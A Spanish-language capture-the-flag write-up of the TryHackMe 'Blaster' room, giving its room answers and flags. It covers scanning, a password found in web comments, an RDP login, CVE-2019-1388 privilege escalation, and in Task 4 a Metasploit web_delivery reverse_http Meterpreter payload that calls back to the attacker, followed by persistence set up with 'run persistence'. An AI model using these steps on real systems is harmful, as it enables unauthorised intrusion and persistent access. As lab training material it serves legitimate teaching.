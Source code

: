 # BLASTER

## Task 1: Mission start!
Start Machine (obtener la IP)

## Task 2: Activate Forward Scanners and Launch Proton Torpedoes

### (a) ¿Cuántos puertos abiertos hay en nuestro sistema objetivo?
Usaremos el comando **`nmap -T4 -A -p- <target ip>`** y veremos que hay **2** puertos abiertos: **80/tcp** y **3389/tcp**.

![puertos_abiertos](./Task_2/puertos_abiertos.png)

**ANSWER:** 2

### (b) ¿Cuál es el nombre del sitio web?
Escribimos la IP que nos ha dado THM en el navegador y veremos que el nombre del sitio web resultante es: **IIS Windows Server**

![nombre_sitio_web](./Task_2/nombre_sitio_web.png)


**ANSWER:** IIS Windows Server

### (c) ¿Qué directorio oculto descubrimos al hacer fuzzing?
Si hacemos fuzzing con **feroxbuster** veremos que el directorio buscado es **/retro**.

![fuzzing](./Task_2/feroxbuster_retro.png)

**ANSWER:** /retro

### (d) Si navegamos a esa carpeta, ¿qué nombre de usuario descubrimos?
Si vamos al navegador y escribimos **"target ip"/retro** encontraremos el nombre de usuario **wade** en el sitio web.

![Wade](./Task_2/Wade_user.png)

**ANSWER:** wade

### (e) ¿Qué posible contraseña podemos encontrar en los comentarios de la web?
Si buscamos en los comentarios de la página encontraremos uno en el que Wade escribe la posible contraseña (**en el segundo comentario**)

![Wade_Password??](./Task_2/Wade_user.png)

![Wade_Password??](./Task_2/Wade_password(1).png)

![Wade_Password??](./Task_2/Wade_password(2).png)

**ANSWER:** parzival

### (f) ¿Qué contiene el fichero user.txt? Tendremos que loggearnos via Microsoft Remote Desktop.
Abrimos un terminal aparte y escribimos el siguiente comando:
**`rdesktop -u wade -p parzival -g 1280x720 <target_ip>`**

Una vez hecho esto, abrimeros el fichero **user.txt** y dentro veremos la respuesta a esta pregunta de THM.

![RDP](./Task_2/RDP(1).png)
![RDP](./Task_2/RDP(2).png)
![RDP](./Task_2/RDP(3).png)

**ANSWER:** THM{HACK_PLAYER_ONE}

## Task 3: Breaching the Control Room

### (a) ¿Cuál fue el CVE investigado en el escritorio remoto?
Si accedemos al historial de Internet Explorer y pulsamos en la estrellita para ver el historial veremos que el **CVE-2019-1388**, el cual está relacionado con una **vulnerabilidad de elevación de privilegios**, es el que buscamos:

![CVE](./Task_3/CVE-2019-1388.png)

**ANSWER**: CVE-2019-1388

### (b) ¿Cuál es el nombre del ejecutable necesario para explotar esta vulnerabilidad?
Si volvemos al escritorio veremos que hay un ejecutable llamado **hhupd**. Ese es el que buscamos.

![hhupd](./Task_3/ejecutable_malicioso.png)

**ANSWER**: hhupd

### (c) Explota la vulnerabilidad
Para explotar esa vulnerabilidad empezaremos cargando el ejecutable **hhupd** como administrador. Veremos que se nos pide una contraseña que no tenemos.

![CMD_privileges](./Task_3/CMD_privileges(1).png)

Lo que haremos entonces será pinchar en **Show more details > Show information about the publisher's certificate > VeriSign Commercial Software Publishers CA**.

![CMD_privileges](./Task_3/CMD_privileges(2).png)

Ese último paso nos abrirá el navegador de **Internet Explorer**, el cual nos indicará que no es capaz de cargar la página. Lo que haremos será pinchar en **Settings > File > Save as...** para descargar el archivo.

![CMD_privileges](./Task_3/CMD_privileges(3).png)

Cuando se nos abrá el explorador de archivos escribiremos **C:\Windows\System32\"."** en la barra del nombre del archivo y posteriormente **C:\Windows\System32\cmd.exe** en la barra superior.

![CMD_privileges](./Task_3/CMD_privileges(4).png)

Eso nos abrirá una **terminal**. Si introducimos el comando **whoami** veremos que somos **administradores** del sistema.

![CMD_privileges](./Task_3/CMD_privileges(5).png)

### (d) Una vez obtenida la terminal de administrador, si hacemos whoami qué nombre de usuario sale
Acabamos de verlo.

**ANSWER:** nt authority\system

### (e) ¿Qué contiene el archivo root.txt?
Si nos movemos a la carpeta del usuario **Administrator** y luego a **Desktop**, y hacemos **dir**, encontraremos un archivo llamado **root.txt**. Si visualizamos su contenido con el comando **type** encontraremos la **flag**.

![root_txt](./Task_3/root_txt.png)

**ANSWER:** THM{COIN_OPERATED_EXPLOITATION}

## Task 4: Adoption into the Collective
### (a) Abre Metasploit y ejecuta el script `exploit/multi/script/web_delivery`
![exploit](./Task_4/ejecutar_exploit.png)

### (b) Establece el target para PSH (PowerShell). ¿Qué número es?
![set_target](./Task_4/set_target.png)

**ANSWER:** 2

### (c) Establece LHOST y LPORT
![lhost_lport](./Task_4/lhost_lport.png)

### (d) Ejecuta el comando `set payload windows/meterpreter/reverse_http` y después `run -j`.
Establecemos el payload (deberemos cambiar **lport** a 443 para que lo haga bien)

![set_payload](./Task_4/set_payload.png)
![change_lport](./Task_4/change_lport.png)

Ejecutamos el payload

![run_j](./Task_4/run_j.png)

### (e) Hazte root en la máquina objetivo
Copiamos la **salida de Metasploit** y me la llevo al terminal_admin del escritorio remoto y la pego ahí.

![script_rdesktop](./Task_4/script_rdesktop.png)

Al pulsar Enter conseguiremos hacernos **root**.

![script_rdesktop](./Task_4/resultado_terminal_kali.png)

### (f) ¿Qué comando podemos ejecutar en nuestra consola de meterpreter para configurar la persistencia que se inicia automáticamente cuando se inicia el sistema?
![persistencia_x](./Task_4/persistencia_x.png)

**ANSWER:** run persistence -x

### (g) Ejecuta el comando `run persistence x -r <ip-THM> -p 9001`
![run_persistence_x](./Task_4/run_persistence_x.png)

Con esto habremos establecido **persistencia** en la máquina objetivo para realizar futuras acciones en ella.































